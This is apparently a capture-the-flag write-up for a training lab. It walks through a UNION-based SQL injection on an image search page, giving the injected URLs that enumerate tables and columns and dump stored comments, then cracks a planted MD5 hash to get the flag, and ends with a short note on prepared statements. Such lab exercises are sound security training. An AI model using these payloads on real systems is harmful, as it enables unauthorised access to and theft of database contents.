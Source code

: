 # Sql_Advanced_Injection

The GET parameter in the image search form is vulnerable to sql injection

## Method

Go to the search image page (<http://192.168.1.102/?page=searchimg>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting the table name

```

http://192.168.1.102/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images

```

### getting the column names

```

http://192.168.1.102/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment

```

### getting information we need

```

http://192.168.1.102/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

```

#### result

```

ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l

```

You can see that it gives us this helpful part that says "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
We then follow this intruction to get the flag we need.

## How to get the flag

Decode the hash 1928e8083cf461a51303633093573c4 using md5.gromweb.com website.
Which gives us the original string "Albatroz"
lower all characters and as per the instructions Sh-256 of albatroz is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 which is the flag

## Prevention

>Everything has to be done through so-called prepared SQL queries, the ORMs do a good job of protecting info. (cf: PDO :: prepare)  
>Try sending forms as post requests

